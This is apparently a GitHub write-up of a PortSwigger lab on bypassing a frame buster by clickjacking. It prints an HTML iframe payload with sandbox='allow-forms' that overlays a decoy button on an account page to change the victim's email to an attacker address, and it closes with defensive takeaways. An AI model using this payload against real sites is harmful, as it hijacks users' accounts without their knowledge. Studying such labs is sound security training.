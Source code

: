 # Clickjacking - with a frame buster script

## 📌 Lab Details
- **Title**: Clickjacking with a frame buster script
- **Difficulty**: Apprentice
- **Category**: Clickjacking
- **Lab URL**: https://portswigger.net/academy/labs/launch/71c2bcc46f11be8e063fa976c68b2383fb1dfd04c1be432086d3f030159f15ae?referrer=%2fweb-security%2fclickjacking%2flab-frame-buster-script

## 🔍 Summary
This lab shows how to **bypass a frame buster using the** `sandbox="allow-forms"` **attribute on an iframe** to conduct a clickjacking attack, tricking the victim into clicking “Click me” while actually changing their account’s email address.

## 🛠 Steps to Solve
1. Log in to the given account.
2. Inject the payload on the **Exploit** server:
   ```sh
   <style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
    </style>
    <div>Test me</div>
    <iframe sandbox="allow-forms"
    src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
    ```
3. Adjust the values of the template to align the `Click me` button with the `update email` button.
4. Deliver exploit to the victim to complete the lab.

## 📖 Key Takeaways
- **Frame busters can often be bypassed with iframe sandboxing** (`sandbox="allow-forms"`) since it blocks JavaScript (disabling the frame buster) but allows form submissions.
- Proper alignment, transparency, and testing in Chrome remain essential for success.
- Highlights why strong anti-clickjacking defenses like `X-Frame-Options` or CSP `frame-ancestors` are critical.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/132d4017-48c9-4ffc-b805-a814f64692a7)
![image](https://github.com/user-attachments/assets/17228510-991b-4f85-8ced-5eb6b4ef01c6)
![image](https://github.com/user-attachments/assets/350f202f-2a2a-4ab6-878a-09ef40fcb8fc)
